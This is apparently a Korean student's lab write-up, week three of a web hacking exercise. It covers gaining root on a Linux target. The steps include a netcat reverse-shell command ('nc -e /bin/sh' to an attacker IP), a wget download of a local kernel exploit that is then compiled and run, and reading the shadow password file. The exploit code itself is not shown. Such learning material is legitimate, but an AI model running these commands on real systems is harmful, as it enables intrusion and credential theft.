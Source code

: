 기술문서 3주차
==========
웹 해킹 root 권한을 얻어보자!
-------

이번 주는 지난 주에 웹 해킹 nobody 권한 획득 실습에 이어서 root 권한을 얻는 실습을 해 봄.


        리버스 쉘(reverse shell)이란?

        → 공격자가 타겟 PC에 쉘로 접속할 때, 보통 일반적으로는 방화벽 등의 프로그램에 의하여 접근하지 못하게 될 경우,
          타겟 PC가 공격자 PC로 커넥션하게 유도

1. 공격자 PC에서 포트를 열어줌
  </br>→ 옵션 ㅣ - 열고있겠다, p - 포트
</br></br><img width="316" alt="default" src="https://user-images.githubusercontent.com/40850499/43042198-396a4c2c-8db2-11e8-809e-49a80dfdb2ce.PNG">


2. 타겟 PC에서 연결 시도
</br> → nc -e /bin/sh 공격자ip 포트번호
<img width="555" alt="pc" src="https://user-images.githubusercontent.com/40850499/43042220-ca8d6b6c-8db2-11e8-96d2-690ba162a8ad.PNG">

3. 연결 성공. 공격자 PC에서 ifconfig를 해보면 타겟 PC의 ip주소가 뜸

<img width="449" alt="default" src="https://user-images.githubusercontent.com/40850499/43042224-ec43d886-8db2-11e8-95ac-7901627041db.PNG">


        리버스 커넥션 = 서버와 클라이언트가 바뀐 상태

이제 nobody 권한을 root로 바꿀 예정임
리눅스에 어떤 취약점이 있나 살펴보자

4. uname -a </br>
<img width="526" alt="uname" src="https://user-images.githubusercontent.com/40850499/43042226-15851c64-8db3-11e8-86e8-d62737a2b684.PNG">
    → 리눅스 체제의 시스템 정보를 확인함
      커널 계정 : 2.6.18-53.e15
      </br>→ root 업데이트라는 취약점 존재

5. 리눅스에서 윈도우 창을 엶
    → 내 컴퓨터 C에서 Inetpub의 wwwroot로 들어가서 exp.c파일을 붙여넣기 해줌
    <img width="574" alt="default" src="https://user-images.githubusercontent.com/40850499/43042235-477c63bc-8db3-11e8-8937-63ddb6b724d2.PNG">

6. 웹 쉘에서 새 창 열어줌 http://10.10.10.20\exp.c
  (접근 권한이 잠겨있음)


7. 리눅스 윈도우에서 exp.c파일의 접근 제한을 모든 권한 허용으로 바꿔줌

8. cmd 관리자로 들어가서 wget http://10.10.10.20/exp.c 후 ls -l로 확인해보면 exp.c가 다운됨을 볼 수 있음
<img width="461" alt="wget" src="https://user-images.githubusercontent.com/40850499/43042244-9cd6753c-8db3-11e8-91ac-10fd5a4928cc.PNG">

9. gcc -o exp exp.c

10. ./exp후 id를 쳐보면 root 권한을 갖게 됨
<img width="298" alt="root" src="https://user-images.githubusercontent.com/40850499/43042262-e48c9aa0-8db3-11e8-99ab-f2c682fdb358.PNG">

11. shadow 파일을 볼 수 있음
<img width="452" alt="shadow" src="https://user-images.githubusercontent.com/40850499/43042267-11b12f5a-8db4-11e8-9623-c99afc16adcf.PNG">

<파일 업로드 해킹을 실습해보며 배운 것>
</br>root 권한을 획득하기 위해 사용된 공격 기법 - 버퍼오버플로우
</br>버퍼오버플로우란 - 버퍼를 넘치게 함. 즉 메모리에 할당된 버퍼의 양을 초과하는 데이터를 입력하여 프로그램의 복귀주소를 조작, 궁극적으로 해커가 원하는 코드를 실행
</br>gcc - GNU C Compiler

</br><2주간의 실습을 마무리하며>
</br>사실상 첫 해킹 실습이라서 이해하는데 어렵기도 하고 오류도 많이 발생했다. 그래서 인터넷도 많이 참고하고 명령어도 많이 찾아보며 실습을 마무리했는데 신기하고 재미있는게 많았다.
</br>다음번에는 SQL Injection 공격을 공부하고 실습할 예정인데 그것도 많이 기대가 된다.
